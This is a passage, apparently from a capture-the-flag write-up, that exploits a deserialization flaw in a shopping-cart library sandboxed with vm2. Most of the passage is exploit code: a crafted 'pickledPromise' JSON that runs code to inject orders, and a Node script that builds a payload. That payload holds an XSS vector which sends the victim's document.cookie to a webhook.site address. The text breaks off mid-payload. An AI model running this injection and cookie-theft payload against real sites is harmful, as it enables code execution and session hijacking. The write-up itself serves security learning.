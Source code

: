 After execution, `123` was successfully output, indicating that this idea is feasible. So, we only need to construct such a JSON to execute code in the sandbox and modify orders:

``` js
{
  "key":"shoppingCartId",
  "type":"pickledPromise",
  "value":[
    {
      "key":"then",
      "type":"Function",
      "value":"globalThis.orders.push(JSON.parse('"+payload+"'));arguments[0]();"
    }
  ]
}
```

(`arguments[0]` in the code is the `resolve` parameter, which will be stuck if not called.)

Finally, the code I used to test and generate the payload is as follows:

``` js
const {VM, VMScript} = require("vm2");
const fs = require('fs');

const script = new VMScript(fs.readFileSync('./myshoplib.mjs').toString().replaceAll('export ','') + `
sendOrder(cart, orders)
`);

async function main () {
  let orders = [];

  let payload = JSON.stringify([
    {
        'key': 'cart',
        'type': 'pickledShoppingCart',
        'value': [
            {
                'key': 'items',
                'type': 'pickledObject',
                'value': [
                    {
                        'key': ['<img src=x onerror="location=`https://webhook.site/d8dc1452-8e82-408d-9dcf-8ad713754f36/?q=${encodeURIComponent(document.cookie)}`">'],
                        'type': 'pickledItem',
                        'value': [
                            {
                                'key': 'price',
                                'type': 'Number',
                                'value': 10
                            },
                            {
                                'key': 'quantity',
                                'type': 'String',
                                'value': '1'
                            }
                        ]
                    }
                ]
            },
            {
                'key': 'address',
                'type': 'pickledAddress',
                'value': [
                    {
```
